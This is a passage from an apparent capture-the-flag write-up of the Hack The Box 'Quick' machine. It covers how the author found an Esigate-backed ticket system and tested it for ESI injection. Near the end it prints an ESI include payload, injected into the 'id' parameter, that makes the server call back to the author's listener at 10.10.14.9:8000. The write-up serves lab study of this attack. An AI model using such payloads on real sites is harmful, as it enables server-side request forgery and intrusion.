 So we can also track our tickets in the `home.php`. I decided to check whats happening internally.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%209.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%209.png)

Captured the ticket submitting in burp.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%2010.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%2010.png)

The response header seems interesting. It is Powered-By `Esigate`

> Esigate allows a fast and invisible mashup of any web applications. It can be used to add application modules, written in any programming language (PHP, Java, . Net...) to a CMS, without cache or accessibility issues.

I looked for any exploit available for it and this comes up

> [https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)

So according to the article ESI `includes` are tags which, when processed by the proxy or load balancer, perform a side HTTP request to fetch dynamic content. If an attacker can add an ESI `include` tag to the HTTP response, they can effectively perform SSRF attacks in the context of the surrogate server (not the application server).

For that I tried injecting the payload in `tickets.php` first. I tried in `title` parameter and `msg` parameter and finally I get the response on my python server when injecting in `id`

```nix
<esi:include src="http://10.10.14.9:8000/hacker" />
```
